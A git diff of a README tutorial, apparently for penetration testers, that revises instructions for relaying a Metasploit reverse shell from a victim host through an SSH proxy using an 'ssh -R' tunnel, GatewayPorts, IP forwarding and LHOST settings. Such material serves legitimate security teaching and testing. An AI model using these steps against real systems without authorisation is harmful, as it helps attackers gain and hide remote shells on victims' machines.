

fixed diagrams

diff --git a/README.md b/README.md
@@ -3,46 +3,42 @@
 ## Scenario
 The following describes overcoming a scenario where your Metasploit instance does not have inbound connectivity for a reverse shell on a target machine to connect to. It assumes you cannot use a bind shell on the victim as an alternative.
 
-The attacking machine could be hosted in a private network, behind a firewall with NAT or is connected to the Tor network for example.
+The attacking machine could be hosted in a private network, behind a firewall with NAT or even connected to the Tor network with only outbound connectivity possible.
 
 ![Image](images/1.png)
 
-The payload used for the reverse shell can be anything desired, i.e. reverse_tcp, reverse_http, etc.
+The payload used for the reverse shell can be anything desired from Metasploit's suite of reverse payloads.
 
 ## Setup
-The prerequisite is you have access to a secondary host which the target victim host will connect to on successful exploitation. In this example we will be using SSH to proxy the connections.
+The prerequisite is you have access to a secondary host which the target victim host will connect to on successful exploitation. In this example we will be using the SSH protocol to proxy the connections.
 
-Take note of the direction of the arrows in the following diagram. The attacking host (192.168.0.1) establishes an SSH connection to the proxy (10.0.0.1) and can reach the victim host (172.16.0.1) -
+Take note of the direction of the arrows in the following diagram. The attacking host (192.168.0.1) can establish a connection to the proxy host (10.0.0.1) and can also reach victim host (172.16.0.1). The vicim host can connect to the proxy host -
 
 ![Image](images/2.png)
 
-In preparation, a reverse SSH tunnel is established from the attacking host to the proxy by invoking the ssh client on the attacking host (192.168.0.1)
+Before exploitation, a reverse SSH tunnel is established from the attacking host to the proxy host by invoking the ssh client with the `-R` switch. Connections are forwarded to localhost. In this example, port 4444 is used for both the local and remote bind port -
+
 ```bash
 ssh user@10.0.0.1 -R 4444:127.0.0.1:4444
 ```
-
-The SSH client on the attacker will bind to 127.0.0.1:4444 on the attacking machine (10.0.0.1). The remote SSH server will also listen on port 4444.
-
 ![Image](images/3.png)
 
-By default SSHD will bind to the loopback interface only, but we want to allow external connectivity to this port so our victim host can connect. Use the `-g` switch or configure `GatewayPorts yes` in `/etc/ssh/sshd_config` on the SSH proxy so the socket listens on 0.0.0.0. Verify 127.0.0.1 is not present -
+By default, SSHD will listen to the loopback interface only on the remote host. We want to allow external connectivity to port 4444 on our proxy host so our victim host can connect. Use the `-g` switch or configure `GatewayPorts yes` in `/etc/ssh/sshd_config` on the SSH proxy so the socket listens on 0.0.0.0. You can verify this is working (i.e 0.0.0.0) -
 
 ``` bash
-
 $ netstat -tan | grep 4444
 tcp        0      0 0.0.0.0:4444           0.0.0.0:*               LISTEN     
 tcp6       0      0 :::4444                :::*                    LISTEN     
-
 ```
 
 Note: Ensure IPv4 forwarding is enabled on the SSH proxy, i.e.  
 `sysctl -w net.ipv4.ip_forward=1` and the firewall rules on the permits inbound traffic on port 4444.
 
-Now the exploit is triggered from Metasploit, invoking a reverse shell payload on the victim host. The victim host establishes a connection to the proxy host, rather then the attacking machine -
+Now everything is setup, the exploit is triggered from Metasploit, invoking a reverse shell payload on the victim host. The victim host establishes a connection to the proxy host, rather then the attacking machine -
 
 ![Image](images/4.png)
 
-As there is a reverse tunnel bound to port 4444, the victim's reverse shell will effectively proxy to the attacker over the reverse SSH tunnel previously established -
+As there is a reverse tunnel bound to port 4444, the victim's reverse shell will effectively be proxied to the attacker over the reverse SSH tunnel. We then obtain a reverse shell -
 
 ![Image](images/5.png)
 
@@ -51,10 +47,6 @@ There are two settings that must be configured in Metasploit for this to work -
 1. Set LHOST to the IP address of the SSH proxy server, otherwise the payload executed on the victim will attempt to connect to the non-routable IP address bound to the attacker host (192.168.0.1)
 
 2. By default Metasploit will bind to interface address specified by LHOST. Configure reverse listener to bind to the loopback address or all interfaces with `ReverseListenerBindAddress 0.0.0.0`
-
-On success, a session will be established between the attacker and the victim hosts -
-
-![Image](images/6.png)
 
 ## Example
 Recapping and putting this all together with an example payload -
